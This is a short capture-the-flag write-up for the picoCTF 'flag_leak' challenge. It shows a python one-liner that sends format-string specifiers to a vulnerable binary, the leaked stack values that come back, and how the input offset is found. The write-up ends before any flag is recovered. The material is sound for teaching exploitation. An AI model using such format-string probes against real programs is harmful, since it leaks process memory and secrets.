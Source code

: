 # flag_leak

## Description

Story telling class 1/2.

I'm just copying and pasting with [this program](https://artifacts.picoctf.net/c/122/vuln). What can go wrong? 

You can view [source here](https://artifacts.picoctf.net/c/122/vuln.c). And connect with it using:

```
nc saturn.picoctf.net 57802
```

## Exploitation

If we send format strings into the program `stdin`, we see that the `AAAA` show up in the 15th parameter on the stack:

```bash
❯ python3 -c "print('AAAA' + 4 * '.%x.%x.%x.%x')" |  ./vuln
Tell me a story and then I'll tell you one >> Here's a story - 
AAAA.f7fa8723.0.f7ec90a7.12.7c.6f636970.656d6f73.a7d67.0.0.0.0.0.41414141.252e7825.2e78252e

python3 -c "print('AAAA' + 4 * '.%x.%x.%x.%x')" |  ./vuln | cut -d"." -f15
Tell me a story and then I'll tell you one >> Here's a story - 
41414141

```